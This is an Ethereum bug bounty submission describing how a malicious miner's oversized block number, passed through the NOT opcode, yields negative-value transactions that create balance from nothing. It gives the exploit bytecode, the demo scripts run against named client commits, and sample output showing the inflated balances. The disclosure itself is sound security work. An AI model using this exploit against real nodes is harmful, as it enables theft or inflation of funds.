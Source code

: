 Ethereum Bug Bounty Submission: Sending Negative Value Transactions
---
A miner can create a valid block with any blocknumber `n` on top of any block. 
Assume `n`  exceeds 32 byte.
A contract mined in that block can push `n` on the stack using the NUMBER opcode. 
Because the NOT opcode assumes that all values on the stack are smaller than 32 byte, 
its result will be negative. Then we can use that number to create a transaction with 
negative value. Because the Transfer method simply subtracts the tx value, the contracts balance will actually increase by `n - 2^256 - 1` units out of thin air.

Contract:
```
PUSH1 0 PUSH1 0 PUSH1 0 PUSH1 0 NUMBER NOT PUSH20 someAddr PUSH1 0 CALL
```

Works out-of-the-box against the develop branch (643eda5), but there is a patch for master (771bfe9) as well. The following starts a private network with a malicious miner and a node, creates the contract at the miner and reads the balance from the node.

```
./install.sh
./run.sh
./demo.py
```

Sample output for block with `n=2^512+i`:
```
Create new contract with zero initial balance. Address: 0b435977a4375bd84162499bc2d02a07c3ecbe80
Press enter when the client received the block

Contract balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
Receiver balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
```
Contract balance is `2^512 + i - 2^256 - 1`.


